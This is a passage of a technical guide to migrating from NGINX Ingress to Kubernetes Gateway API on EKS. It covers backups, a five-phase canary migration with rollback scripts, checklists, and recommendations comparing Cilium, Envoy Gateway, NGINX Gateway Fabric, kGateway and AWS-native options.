        expr: rate(cilium_drop_count_total[5m]) > 100
        annotations:
          summary: "High packet drop rate detected"

      # eBPF program load failure
      - alert: CiliumBPFProgramFailed
        expr: cilium_bpf_map_ops_total{outcome="failure"} > 0
        annotations:
          summary: "eBPF program operation failed"
```

#### 4. Disaster Recovery

```bash
# Backup Cilium configuration
kubectl get ciliumconfig -A -o yaml > cilium-config-backup.yaml
kubectl get gatewayclass,gateway,httproute -A -o yaml > gateway-backup.yaml

# Backup Hubble data (optional)
kubectl exec -n kube-system deployment/hubble-relay -- hubble observe -o jsonpb > hubble-flows-backup.json
```

---

## 8. Migration Execution Strategy

### 8.1 Migration Approach

Gateway API migration requires a phased, risk-minimized approach. The following 5-phase strategy enables zero-downtime migration.



### 8.2 5-Phase Detailed Plan

#### Phase 1: Planning & Assessment (2 weeks)

**Objectives:**
- Inventory current NGINX Ingress resources
- Evaluate technology selection
- Develop risk management plan

**Tasks:**

1. **Current State Analysis**
```bash
# Export all Ingress resources
kubectl get ingress -A -o yaml > nginx-ingress-inventory.yaml

# Analyze annotation usage
kubectl get ingress -A -o json | \
  jq -r '.items[].metadata.annotations | keys[]' | \
  sort | uniq -c | sort -rn

# Check TLS certificate count
kubectl get ingress -A -o json | \
  jq -r '.items[].spec.tls[].secretName' | sort | uniq | wc -l
```

2. **Technology Selection**
- Review Section 5 solution comparison
- Conduct stakeholder interviews
- Evaluate budget and operational capabilities

3. **Risk Assessment**
```yaml
# Risk register example
risks:
  - id: R1
    description: "Traffic loss during migration"
    probability: Medium
    impact: Critical
    mitigation: "Blue-Green deployment, gradual traffic shift"

  - id: R2
    description: "Performance degradation"
    probability: Low
    impact: High
    mitigation: "Pre-migration benchmarking, rollback plan"

  - id: R3
    description: "TLS certificate management issues"
    probability: Medium
    impact: Medium
    mitigation: "Test in PoC, automate with cert-manager"
```

**Deliverables:**
- [ ] NGINX Ingress inventory spreadsheet
- [ ] Technology selection decision document
- [ ] Migration project plan
- [ ] Risk register and mitigation strategies

#### Phase 2: PoC Environment Setup (2 weeks)

**Objectives:**
- Validate selected solution in isolated environment
- Develop migration scripts
- Train team

**Tasks:**

1. **Create PoC Cluster**
```bash
# Create test EKS cluster
eksctl create cluster \
  --name gateway-api-poc \
  --region us-west-2 \
  --version 1.32 \
  --nodegroup-name poc-workers \
  --node-type m5.large \
  --nodes 2
```

2. **Install Selected Solution** (Example: Cilium)
```bash
# Install Cilium Gateway API
helm install cilium cilium/cilium \
  --namespace kube-system \
  --set gatewayAPI.enabled=true \
  --set kubeProxyReplacement=true
```

3. **Feature Validation**
- Migrate 3-5 representative Ingress resources to HTTPRoute
- Test authentication, rate limiting, URL rewrite
- Performance benchmarking (baseline vs Gateway API)

4. **Documentation**
```markdown
# PoC Report Template

## Test Summary
- **Duration**: 2026-01-15 to 2026-01-28
- **Solution**: Cilium Gateway API v1.19
- **Test Cases**: 12 (11 passed, 1 issue)

## Performance Results
| Metric | NGINX Ingress | Cilium Gateway | Change |
|--------|---------------|----------------|--------|
| P50 Latency | 5.2ms | 4.1ms | -21% |
| P99 Latency | 18.3ms | 12.7ms | -31% |
| Throughput | 45k RPS | 52k RPS | +16% |

## Issues Encountered
1. **Issue**: Rate limiting configuration complexity
   **Resolution**: Created helper script (see scripts/rate-limit-helper.sh)

## Recommendation
✅ Proceed to Phase 3 (Parallel Operation)
```

**Deliverables:**
- [ ] PoC cluster running selected solution
- [ ] Migration script templates
- [ ] PoC test report
- [ ] Team training materials

#### Phase 3: Parallel Operation (Staging) (3 weeks)

**Objectives:**
- Deploy Gateway API alongside NGINX in staging
- Validate with production-like traffic
- Refine operational procedures

**Tasks:**

1. **Deploy Gateway API in Staging**
```yaml
# GatewayClass
apiVersion: gateway.networking.k8s.io/v1
kind: GatewayClass
metadata:
  name: cilium
spec:
  controllerName: io.cilium/gateway-controller

---
# Gateway (parallel to NGINX)
apiVersion: gateway.networking.k8s.io/v1
kind: Gateway
metadata:
  name: staging-gateway
  namespace: gateway-system
spec:
  gatewayClassName: cilium
  listeners:
  - name: https
    protocol: HTTPS
    port: 8443  # Different port from NGINX (443)
    tls:
      certificateRefs:
      - name: staging-tls
```

2. **Traffic Mirroring** (if supported)
```yaml
# AWS ALB example: Mirror 10% traffic to Gateway API
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: mirrored-route
spec:
  rules:
  - backendRefs:
    - name: app-service
      port: 80
      weight: 90  # 90% to NGINX
    - name: app-service-via-gateway
      port: 80
      weight: 10  # 10% to Gateway API (testing)
```

3. **Monitoring Setup**
```yaml
# Prometheus ServiceMonitor for Cilium
apiVersion: monitoring.coreos.com/v1
kind: ServiceMonitor
metadata:
  name: cilium-gateway
spec:
  selector:
    matchLabels:
      app.kubernetes.io/name: cilium
  endpoints:
  - port: prometheus
    interval: 30s
```

**Deliverables:**
- [ ] Gateway API deployed in staging
- [ ] 7 days of parallel operation data
- [ ] Monitoring dashboards configured
- [ ] Incident response procedures documented

#### Phase 4: Gradual Production Migration (4 weeks)

**Objectives:**
- Migrate production traffic with zero downtime
- Monitor and validate each step
- Quick rollback capability

**Tasks:**

1. **Week 1: Deploy Gateway API (0% traffic)**
```bash
# Deploy Gateway API infrastructure
kubectl apply -f production/gatewayclass.yaml
kubectl apply -f production/gateway.yaml

# Verify readiness
kubectl wait --for=condition=Ready gateway/production-gateway -n gateway-system --timeout=300s
```

2. **Week 2: Canary Migration (10% traffic)**
```yaml
# HTTPRoute with 90/10 split
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: api-canary
spec:
  parentRefs:
  - name: production-gateway
  rules:
  - backendRefs:
    - name: api-service-nginx
      port: 80
      weight: 90  # NGINX Ingress
    - name: api-service-gateway
      port: 80
      weight: 10  # Gateway API
```

**Monitoring:**
```bash
# Compare error rates
kubectl top pods -l app=api-service
kubectl logs -l app=api-service --tail=1000 | grep ERROR | wc -l

# Latency comparison
curl -w "@curl-format.txt" https://api.example.com/health
```

3. **Week 3: Increase to 50% traffic**
```bash
# Update HTTPRoute weight
kubectl patch httproute api-canary --type=json \
  -p='[{"op": "replace", "path": "/spec/rules/0/backendRefs/0/weight", "value": 50},
       {"op": "replace", "path": "/spec/rules/0/backendRefs/1/weight", "value": 50}]'

# Monitor for 48 hours
```

4. **Week 4: Complete Migration (100% traffic)**
```bash
# Update to 100% Gateway API
kubectl patch httproute api-canary --type=json \
  -p='[{"op": "replace", "path": "/spec/rules/0/backendRefs/0/weight", "value": 0},
       {"op": "replace", "path": "/spec/rules/0/backendRefs/1/weight", "value": 100}]'

# Monitor for 7 days before Phase 5
```

**Rollback Plan:**
```bash
# Emergency rollback script
#!/bin/bash
# rollback-to-nginx.sh

echo "Rolling back to NGINX Ingress..."

# Revert traffic to 100% NGINX
kubectl patch httproute api-canary --type=json \
  -p='[{"op": "replace", "path": "/spec/rules/0/backendRefs/0/weight", "value": 100},
       {"op": "replace", "path": "/spec/rules/0/backendRefs/1/weight", "value": 0}]'

# Verify NGINX Ingress health
kubectl get ingress -A
kubectl describe ingress <ingress-name>

echo "Rollback complete. Verify traffic flow."
```

**Deliverables:**
- [ ] Week 1: Gateway API infrastructure deployed (0% traffic)
- [ ] Week 2: Canary validated (10% traffic)
- [ ] Week 3: Half migration validated (50% traffic)
- [ ] Week 4: Full migration complete (100% traffic)
- [ ] No P1/P2 incidents during migration

#### Phase 5: NGINX Decommission (1 week)

**Objectives:**
- Safely remove NGINX Ingress Controller
- Archive configurations for audit
- Close migration project

**Tasks:**

1. **Final Validation** (Day 1-2)
```bash
# Verify all traffic on Gateway API
kubectl get httproute -A

# Check for any remaining Ingress resources
kubectl get ingress -A

# Validate metrics
# - No increase in error rates
# - Latency within acceptable range
# - No customer complaints
```

2. **Archive NGINX Configuration** (Day 3)
```bash
# Backup all NGINX resources
kubectl get ingress,configmap,secret -A -o yaml > nginx-archive-$(date +%Y%m%d).yaml

# Store in version control
git add nginx-archive-*.yaml
git commit -m "Archive NGINX Ingress configuration before decommission"
git push
```

3. **Delete NGINX Resources** (Day 4-5)
```bash
# Delete NGINX Ingress Controller
helm uninstall nginx-ingress -n ingress-nginx

# Delete namespace
kubectl delete namespace ingress-nginx

# Delete remaining Ingress resources
kubectl delete ingress --all -A

# Verify cleanup
kubectl get all -n ingress-nginx  # Should be empty
```

4. **Post-Migration Review** (Day 6-7)
```yaml
# Migration retrospective template
## What Went Well
- Gradual traffic migration prevented incidents
- Monitoring provided clear visibility
- Team training was effective

## What Could Be Improved
- PoC phase took longer than expected
- Need better automation for weight updates

## Action Items
- [ ] Document migration procedures for future clusters
- [ ] Create runbooks for common Gateway API issues
- [ ] Schedule quarterly training on Gateway API features

## Metrics
- **Total Duration**: 11 weeks (planned 12)
- **Incidents**: 0 P1/P2, 2 P3 (resolved in under 1hr)
- **Performance**: 15% latency improvement
- **Cost**: No change (Cilium open-source)
```

**Deliverables:**
- [ ] NGINX Ingress fully decommissioned
- [ ] Configuration archived in version control
- [ ] Post-migration report
- [ ] Team retrospective completed

### 8.3 Migration Checklists

Use these checklists to track progress at each phase.

#### Pre-Migration Audit

- [ ] Inventory all NGINX Ingress resources
- [ ] Document all custom annotations used
- [ ] Identify features used (auth, rate limiting, rewrite, etc.)
- [ ] Check TLS certificate management method
- [ ] Review custom ConfigMaps and snippets
- [ ] Document current performance baseline
- [ ] List all stakeholders and communication plan

#### Gateway API Resource Creation

- [ ] Create GatewayClass
- [ ] Create Gateway (listeners, TLS)
- [ ] Migrate HTTPRoute (routing rules)
- [ ] Implement authentication (JWT/OAuth)
- [ ] Configure rate limiting
- [ ] Set up IP allowlists
- [ ] Configure URL rewrites
- [ ] Implement custom error pages
- [ ] Set session affinity
- [ ] Test ReferenceGrant for cross-namespace access

#### Testing

- [ ] Functional testing (all routes working)
- [ ] Performance testing (latency, throughput)
- [ ] Security testing (auth, IP filtering)
- [ ] Failure simulation (backend down, network disconnection)
- [ ] Rollback plan development
- [ ] Load testing (expected 3x peak traffic)
- [ ] TLS certificate validation
- [ ] Monitoring and alerting validation

#### Production Deployment

- [ ] Blue-Green or Canary deployment strategy
- [ ] Monitoring and alerting setup (Prometheus, CloudWatch)
- [ ] Gradual traffic transition (Weight adjustment)
- [ ] Operations documentation update
- [ ] Team training completion
- [ ] Stakeholder communication
- [ ] Rollback procedures tested
- [ ] 24/7 on-call coverage arranged

#### Post-Migration Validation

- [ ] All routes functional
- [ ] Performance meets or exceeds baseline
- [ ] No increase in error rates
- [ ] TLS certificates auto-renewing
- [ ] Monitoring dashboards accurate
- [ ] Team comfortable with new system
- [ ] Documentation complete
- [ ] NGINX Ingress decommissioned

---

## 9. Benchmark Comparison Planning

A systematic benchmark is planned for objective performance comparison of 5 Gateway API implementations. Eight scenarios including throughput, latency, TLS performance, L7 routing, scaling, resource efficiency, failure recovery, and gRPC will be measured in identical EKS environments.

:::info Detailed Benchmark Plan
For test environment design, detailed scenarios, measurement metrics, and execution plan, see **[Gateway API Implementation Performance Benchmark Plan](/docs/benchmarks/gateway-api-benchmark)**.
:::

---

## 10. Conclusion and Future Roadmap

### 10.1 Executive Summary

| Path | Optimal Target | Key Benefits |
|------|---------------|--------------|
| **AWS Native** | AWS all-in organizations | Fully managed, auto-scaling, zero operations |
| **Cilium** | High-performance + observability focus | eBPF best performance, Hubble visibility, ENI native |
| **NGINX Fabric** | Leverage NGINX experience | Proven stability, familiar configuration, fast transition |
| **Envoy Gateway** | CNCF standards + service mesh | Rich L7 features, Istio integration, extensibility |
| **kGateway** | AI/ML integration needs | AI routing, enterprise support, Solo.io ecosystem |

### 10.2 Recommendations

**AWS All-In Environment: AWS Native (LBC v3)**
- Team is all-in on AWS and wants to minimize operational burden
- Want to maximize utilization of ALB/NLB managed characteristics
- Stability and auto-scaling more important than raw performance

**High Performance + Observability: Cilium Gateway API**
- Ultra-low latency requirements (P99 under 10ms)
- Want to leverage eBPF-based networking benefits
- Need L7 visibility through Hubble
- Want VPC native integration with ENI mode

**Leverage NGINX Experience: NGINX Gateway Fabric**
- Currently using NGINX Ingress and want fast transition
- Team is familiar with NGINX configuration
- Proven stability is most important consideration

**CNCF Standards + Service Mesh: Envoy Gateway**
- Plan to expand to service mesh (Istio, Linkerd) in future
- CNCF standards compliance and vendor neutrality are important
- Need rich L7 features (rate limiting, auth, transformation)

**AI/ML Integration: kGateway**
- Need specialized routing for AI/ML workloads
- Need Solo.io enterprise support
- Plan to integrate with Gloo Platform ecosystem

### 10.3 Future Expansion Roadmap



**6 Months Later (August 2026)**
- **Policy Attachment v1** standard stabilization
  - Standardization of Rate Limiting, CORS, Auth policies
  - Policy portability without vendor lock-in
- **Benchmark Report Complete**
  - Real-world performance data for 5 solutions published
  - Optimal selection guide per workload

**1 Year Later (February 2027)**
- **GAMMA (Gateway API for Mesh Management and Administration)**
  - East-West traffic management (service-to-service communication)
  - Service mesh standardization with Gateway API
- **Istio Ambient Mesh Integration**
  - Sidecar-less service mesh
  - Gateway API + Ambient = complete traffic control

**2 Years Later (February 2028)**
- **AI Gateway Integration**
  - LLM routing (model selection, load balancing)
  - Token-based rate limiting
  - Cost optimization automatic routing
- **Fully Autonomous Routing**
  - ML-based automated canary deployments
  - Anomaly detection and automatic rollback
  - Prediction-based auto-scaling

### 10.4 Key Message

:::info
**Complete migration before March 2026 NGINX Ingress EOL to eliminate security threats at the source.**

Gateway API is not just an Ingress replacement, but the future of cloud-native traffic management.
- **Role Separation**: Clear separation of responsibilities between platform and development teams
- **Standardization**: Portable configuration without vendor lock-in
- **Extensibility**: Expansion to East-West, service mesh, and AI integration
:::

**Start Now:**
1. Collect current Ingress inventory (Section 8.3.1)
2. Select solution matching your workload (Section 10.2)
3. Build PoC environment (Section 8.3.2)
4. Execute gradual migration (Section 8.3.4)

**Additional Resources:**
- [Gateway API Official Documentation](https://gateway-api.sigs.k8s.io/)
- [Cilium Official Documentation](https://docs.cilium.io/)
- [NGINX Gateway Fabric](https://docs.nginx.com/nginx-gateway-fabric/)
- [Envoy Gateway](https://gateway.envoyproxy.io/)
- [AWS Load Balancer Controller](https://kubernetes-sigs.github.io/aws-load-balancer-controller/)

---

## Related Documents

- [2. CoreDNS Monitoring & Optimization](./coredns-monitoring-optimization.md)
- [3. East-West Traffic Optimization](./east-west-traffic-best-practice.md)
- [4. Karpenter Ultra-Fast Auto-Scaling](./karpenter-autoscaling.md)
- [Kubernetes Gateway API Official Documentation](https://gateway-api.sigs.k8s.io/)
- [AWS Load Balancer Controller](https://kubernetes-sigs.github.io/aws-load-balancer-controller/)
- [Cilium Gateway API Documentation](https://docs.cilium.io/en/stable/network/servicemesh/gateway-api/gateway-api/)
- [NGINX Gateway Fabric](https://docs.nginx.com/nginx-gateway-fabric/)
- [Envoy Gateway](https://gateway.envoyproxy.io/)
- [kGateway](https://k8sgateway.io/)
